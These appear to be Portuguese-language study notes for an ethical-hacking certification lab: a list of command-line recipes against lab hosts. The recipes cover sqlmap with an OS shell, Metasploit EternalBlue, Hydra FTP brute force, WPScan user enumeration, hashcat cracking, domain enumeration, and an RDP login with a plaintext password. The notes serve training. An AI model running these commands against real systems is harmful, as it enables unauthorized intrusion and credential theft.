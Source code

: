 Notes 01 Tools


Blind SQL Injection: Use sqlmap para automatizar a detecção de SQL Injection e obter informações sobre o sistema operacional.

bash
sqlmap -u "URL_DO_SITE" --dbms=mysql --os-shell
Enumeração de Usuários de Domínio: Utilize net user e net group para listar usuários e grupos no domínio.

bash
net user
net group /domain
Varredura de Portas RDP: Utilize Nmap para identificar portas abertas e serviços.

bash
nmap -p 3389 --open 172.16.0.0/24
Descriptografia DES (ECB): Use openssl para descriptografar arquivos usando o algoritmo DES.

bash
openssl enc -d -des-ecb -in Cry-DES-FTP-IP.hex -out decrypted.txt
Esteganografia: Utilize steghide para extrair dados ocultos em arquivos.

bash
steghide extract -sf Confidential.txt -p test
Banco de Dados WordPress: Utilize WPScan para enumerar usuários e obter senhas.

bash
wpscan --url http://172.16.0.27:8080/CEH --enumerate u
Quebra de Hash MD5: Utilize hashcat para quebrar hashes MD5.

bash
hashcat -m 0 -a 0 hash.txt wordlist.txt
Backdoor e Recuperação de Arquivos: Utilize Metasploit para explorar backdoors e obter arquivos.

bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 172.16.0.27
exploit
Análise de Pacotes de Rede: Utilize Wireshark para analisar arquivos de captura de pacotes (pcapng).

bash
wireshark Dos.pcapng
Análise de Ataque DDoS: Utilize Wireshark para identificar o número de máquinas que participaram do ataque.

bash
wireshark DDoS.pcapng
Quebra de Credenciais FTP: Utilize Hydra para força bruta em servidores FTP.

bash
hydra -l username -P password_list.txt ftp://172.16.0.27
Conexão RDP: Utilize rdesktop para acessar o servidor Windows remotamente.

bash
rdesktop -u Administrator -p shadow123 172.16.0.27
Ataque SQLi: Utilize sqlmap para testar vulnerabilidades SQL.

bash
sqlmap -u "http://www.moviescope.com" --cookie="SESSAO"
Análise de Tráfego em Texto Plano: Utilize Wireshark para capturar e analisar tráfego HTTP.

bash
wireshark moviescope.com.pcapng
Teste de Método HTTP: Utilize OWASP ZAP para testar diferentes métodos HTTP.

bash
OWASP ZAP
Verificação de Integridade de Arquivos: Utilize md5sum para comparar hashes de arquivos.

bash
md5sum original_file tampered_file
Descriptografia VeraCrypt: Utilize VeraCrypt para montar volumes criptografados e acessar arquivos.

bash
veracrypt --mount secret
Descriptografia RC4: Utilize CrypTool para descriptografar arquivos RC4.

bash
cryp rc4 -in Cry-Rc4-Accountno.hex -out decrypted.txt -key 14
Acesso ao Android: Utilize ADB (Android Debug Bridge) para acessar e manipular arquivos em dispositivos Android.

bash
adb shell
Decodificação de Dados: Utilize base64 ou outras ferramentas de decodificação conforme necessário.

bash
echo "conteúdo codificado" | base64 --decode
